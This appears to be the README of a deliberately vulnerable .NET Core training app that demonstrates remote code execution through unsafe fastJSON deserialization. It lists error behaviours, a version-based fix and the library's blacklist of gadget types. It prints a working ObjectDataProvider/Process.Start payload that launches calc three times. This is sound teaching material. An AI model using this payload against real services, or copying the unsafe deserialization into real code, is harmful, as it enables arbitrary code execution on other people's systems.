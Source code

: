 # Infallible McCarthy

## Vulnerability

.NET Core project where a JSON deserialization vulnerability leads to RCE, due to unsafe deserialization in the fastJSON library.

## Usage

Submit JSON values on the [Privacy Policy](http://localhost:8080/Privacy) page.

### Behaviour 1

Submitting the form with no input leads to a `System.NullReferenceException`

### Behaviour 2

Submitting the form with a JSON string like `"sdf"` will return a `System.InvalidCastException` because fastJSON cannot convert the input to a type of `app.Pages.ExpectedType`

### Behaviour 3

Submitting the form with an empty JSON object like `{}` will return a `System.Exception: Cannot determine type` exception because the JSON doesn't include type hints for fastJSON to deserialize.

### Behaviour 4

Submitting JSON that matches the expected type `app.Pages.ExpectedType` will serialize successfully.

```
{"$type": "app.Pages.ExpectedType, app"}
```

### Behaviour 5

Trying to run the exploit on a .NET Core application in a Linux operating environment may fail due to the gadgets not being available.  

The `PresentationFramework` for example is not available on Linux for example so this exploit will likely only work on Windows targets:

```
{
    "$type": "System.Windows.Data.ObjectDataProvider, PresentationFramework",
    "ObjectInstance": {
        "$type": "System.Diagnostics.Process, System"
    },
    "MethodParameters": {
        "$type": "System.Collections.ArrayList, mscorlib",
        "$values": ["calc"]
    },
    "MethodName": "Start"
}
```

You will receive an error like `System.Exception: Cannot determine type : System.Windows.Data.ObjectDataProvider, PresentationFramework` if you try to run this.

### Exploit 1


Older versions (pre 2.3.0)

```
{
    "$type": "System.Windows.Data.ObjectDataProvider, PresentationFramework",
    "ObjectInstance": {
        "$type": "System.Diagnostics.Process, System"
    },
    "MethodParameters": {
        "$type": "System.Collections.ArrayList, mscorlib",
        "$values": ["calc"]
    },
    "MethodName": "Start"
}
```

### Fix 1

Recent versions (v2.3.0+) of the library implement a blacklist for known RCE types that will return the error `System.Exception: Black list type encountered, possible attack vector when using $type : System.Windows.Data.ObjectDataProvider, PresentationFramework`

* _"I have added JSONParameters.BadListTypeChecking which defaults to true to check for known $type attack vectors from the paper published from HP Enterprise Security Group, when enabled it will throw an exception and stop processing the json." — [mgholam](https://github.com/mgholam/fastJSON)_
* [Issue #108](https://github.com/mgholam/fastJSON/issues/108)
* [Blacklist](https://github.com/mgholam/fastJSON/blob/master/fastJSON/Reflection.cs#L107)
  ```
  private static List<string> _badlistTypes = new List<string>()
        {
            "system.configuration.install.assemblyinstaller",
            "system.activities.presentation.workflowdesigner",
            "system.windows.resourcedictionary",
            "system.windows.data.objectdataprovider",
            "system.windows.forms.bindingsource",
            "microsoft.exchange.management.systemmanager.winforms.exchangesettingsprovider"
        };
  ```
* [HP Enterprise: Friday the 13th JSON Attacks](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf)


```
{
    "$type": "System.Windows.Data.ObjectDataProvider, PresentationFramework",
    "ObjectInstance": {
        "$type": "System.Diagnostics.Process, System"
    },
    "MethodParameters": {
        "$type": "System.Collections.ArrayList, mscorlib",
        "$values": ["calc"]
    },
    "MethodName": "Start"
}
```